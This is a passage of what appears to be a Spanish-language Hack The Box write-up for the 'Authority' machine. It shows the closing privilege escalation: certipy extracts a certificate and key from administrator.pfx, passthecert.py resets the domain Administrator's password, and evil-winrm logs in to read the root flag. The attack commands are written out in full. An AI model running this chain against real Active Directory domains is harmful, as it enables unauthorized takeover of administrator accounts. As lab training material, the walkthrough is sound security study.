 Ahora tenemos que extraer la clave privada y el certificado del archivo administrator.pfx, una vez hecho esto con la herramienta que os comparto por aquí: [passthecert.py](https://raw.githubusercontent.com/AlmondOffSec/PassTheCert/main/Python/passthecert.py) ya podemos ejecutar comandos, así que procedemos a cambiarle la contraseña al usuario administrator.

Extraer certificado:
```bash
certipy cert -pfx administrator.pfx -nokey -out user.crt
```

Extraer Clave privada:
```bash
certipy cert -pfx administrator.pfx -nocert -out user.key
```

Cambiar el password de usuario Administrator:
```bash
> python3 passthecert.py -crt user.crt -key user.key -dc-ip 10.10.11.222 -domain authority.htb -action modify_user -target administrator -new-pass cahoner123
```

Conectarnos como Administrator en la máquina víctima:
```bash
❯ evil-winrm -i 10.10.11.222 -u 'administrator' -p 'cahoner123'
*Evil-WinRM* PS C:\Users\Administrator\Desktop> whoami
htb\administrator
```

¡Ya podemos leer el flag del usuario root!
```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ../Desktop/root.txt
9982bf9ef......a3c65de58
```
